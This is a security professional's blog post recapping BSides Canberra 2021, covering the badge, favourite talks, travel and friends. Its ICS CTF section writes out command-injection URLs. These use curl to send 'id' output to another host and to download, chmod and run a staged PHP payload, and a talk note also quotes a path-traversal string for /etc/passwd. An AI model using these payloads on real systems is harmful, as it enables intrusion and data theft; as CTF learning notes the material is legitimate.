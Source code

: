 ```yaml
---
layout: post
date: 2021-04-10
catgories: ['life']
published: true
title: Bsides Canberra 2021
---
```


## A change in perspective :cowboy_hat_face:
It really is a surreal experience attending the conference from the standpoint of someone who is currently working in the industry.  

![ctf-go-brrrrrrrt](/assets/images/bsides21-ctfroom.jpg)  
Only a few years ago, I was the penultimate-year uni student who was trying to prove their worth in a rapidly advancing industry.

Now that I have finally set foot in it, there is a feeling of calmness --- :wind_chime:

Instead of focusing on maximizing the value gained from the conference :disappointed_relieved:  
I decided this time to just catchup with old friends instead :beers:  

<br/>

## The badge :beginner:

Honestly? I never inspected the badge contents once during the conference.  
Not even now, as I'm writing this one week post-conference.  

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">A big shout out to the volunteers at <a href="https://twitter.com/PentenCyber?ref_src=twsrc%5Etfw">@PentenCyber</a> who fought through a busy time at work and a global parts shortage to deliver the <a href="https://twitter.com/BSidesCbr?ref_src=twsrc%5Etfw">@BSidesCbr</a> badge to the community with the support of our friends at GME and <a href="https://twitter.com/4design_news?ref_src=twsrc%5Etfw">@4design_news</a> to make the badge in Sydney <a href="https://twitter.com/hashtag/madeinaustralia?src=hash&amp;ref_src=twsrc%5Etfw">#madeinaustralia</a> <a href="https://t.co/PNAffZt17R">pic.twitter.com/PNAffZt17R</a></p>&mdash; Penten (@PentenCyber) <a href="https://twitter.com/PentenCyber/status/1380289053120024580?ref_src=twsrc%5Etfw">April 8, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script> 

> If you were involved in the badge making team, I respect all the blood,sweat and tears you've put in. But seriously, the design is not ergonomic or intuitive at all!

I definitely wasn't alone in this opinion as well:
- The badge was heavy and clunky compared to previous years
- The on switch _(yes you read that right)_ couldn't be reached with your bare hands as it was indented into the badge

Then again, I am probably just a whiny pentester who doesn't know shit about hardware hacking and thus can't appreciate the full value of the badge. :man_shrugging:  
This [blog post](https://mosandboo.com/bsides-cbr-2021-badge-hacking-part-1/){:target="_blank"} looks cool though!

<br/>

## The talks :speaking_head:

Here are the talks that I was most interested in:
[\[Scroll til **"Main Track"**\]](https://web.archive.org/web/20210401021357/https://www.bsidesau.com.au/speakers.html){:target="_blank"}  
some I watched; others I'll have to wait til the recording comes out... 

|Title | Author(s) | Why I watched/will watch|
|:-----|:----------|:--------------------------|
|:biohazard: The <br/>Security<br/> of <br/>Emojis :biohazard:|Adrian Justice|Thought it would be interesting, turned out it was a funny (but filler) presentation, still a good watch and reinforces the ideal of always challenging developers' assumptions|
|Easy LPEs and <br/>common software <br/>vulnerabilities|Christopher Vella|Haven't watched yet but heard its good, especially for those heading down the vuln research path!|
|The defender's new clothes|Eldar Marcussen|(see below)|
|13 Nagios Vulnerabilities, <br/>#7 will SHOCK you!|Samir Ghanem|(see below)|
|Context Aware Content Discovery: The Natural Evolution|Assetnote|(see below)|
|Understanding Real Threats for <br/>Real Security|Shane Hutley|Haven't watched yet but recommended by few other people so will watch|
 
<br/>  

#### My takeaways :alembic:  

<u>The defenders new clothes</u>:
- I really enjoyed Eldar's casual style of presentation, as though he is simply talking to himself on stage :snowflake: :cucumber:  
- The interesting tadeoff between using string-based pattern matching and regex-based pattern matching in WAFs:
  - One brings the risk of WAD Denial of Service due to rmalicious regex
  - The other has an inherent risk of false negatives ie. bypasses  
- Using a few of his tools: [`travesty`](https://github.com/wireghoul/traversty){:target="_blank"}, [`PHP-omelette`](https://github.com/wireghoul/php-omelette){:target="_blank"} and so on... its possible to bypass WAFs or detection tools
- Never underestimate the power of a good `//.///..//..///..///etc/passwd` :wink:

<u>NagiOS vulnerabilities</u>:
- It gives me hope that vuln research is still alive and kicking, and that I should really get into it sometime!
- Never make assumptions about how the security of applications, despite the reputation of an org
- I really should look at NagiOS or other similar products to find CVEs in...

<u>Context Aware Asset Discovery</u>:
- I really love what AssetNote is doing at the moment, even though they are a small team, they are creating tools that larger firms would not be able to produce
- I think its also largely due to their business model being innovative and pushing the boundaries of what we think is possible
- What really makes them amazing is they care about the infosec community and always open source their tools and data for everyone to use, which is really heartwarming to say the least :blush:
- Big props to @sean who spent two months researching and building Kiterunner, I can see it being used as part of API testing in legit jobs, as well as by bounty hunters to find more obscure endpoints!!! Truly a great gift to all web-based researchers out there :gift:  

<br/>

---

<br/>


## Industrial Control Systems (ICS) CTF :factory:

I decided to play in this one because it was a good refresher exercise for OSCP/HTB-style challenges which resemble real-world scenarios:

> Long-story-short: After playing, failing, and ultimately running out of time,  I learnt the following new techniques:  :bulb:

<u>WordPress challenge:</u>
- When using `WPScan`, sometimes it might be worth using **_aggresive mode_** or you might miss the one plugin you need for the foothold

<u>Command Injection challenge:</u>
- Apparently you can actually abuse the `-p pattern` in `ping` command during command injection to exfiltrate 16 bytes of data at a time :sparkles:
- Instead of trying to execute commands within the command itself, ie:
  ```bash
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(curl%2010.19.0.205?`id`)
  ```  

  One could instead opt to execute a staged-payload of sorts, <br/>to avoid triggering filters/detections:
  ```bash
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(curl%2010.19.0.205/data.txt%20>%20/tmp/evil.php)
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(chmod%20711%20/tmp/evil.php)
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(php%20/tmp/evil.php)
  # Altogether in three steps: curl 10.19.0.205/data.txt > evil.php; chmod 711 /tmp/evil.php; php /tmp/evil.php
  ```






<br/>


## My accomodation :hotel:

- Thanks Privasec for paying for the hotel!
  - The room was much larger than I expected, almost like an apartment!
  - they even had a pool (I swam in it as well one night :swimming_man:)  
  - It came with a kitchen setup which is great as I could prepare meals

![pool](/assets/images/bsides21-pool.jpg)

<br/>

## Sydney :repeat: Canberra flights :airplane:

Again, thanks Privasec for sponsoring my to/fro flights :grin:
This was my first time taking a plane from Sydney to Canberra:
- I felt like I waited at the airport (starting from gate opening) longer than the flight itself!
- 30 mins for everyone to board and take off, another 30 mins in the air
- It was a **QantasLink Dash 8 Q400** airplane, with propellers on each side and only two seats per side :hushed: 

![dash-flight](/assets/images/bsides21-dash.jpg)

<br/>

## Catchups/New friendships :busts_in_silhouette:

It was great to catch up with all my friends from various places such as:
- UNSW Security Society
- current Privasec colleagues
- ex-HackLabs colleagues
- ex-Pure Security colleagues
- other connections from Sydney/Melbourne

I also met new people from other penetration testing firms and also other student societies!  

Also, I played this game at the Token Barcade and it was quite fun:  

{:refdef style="text-align: center;"}
![buckhunt](/assets/images/bsides21-buckhunt.jpg)
{:refdef}
<br/>



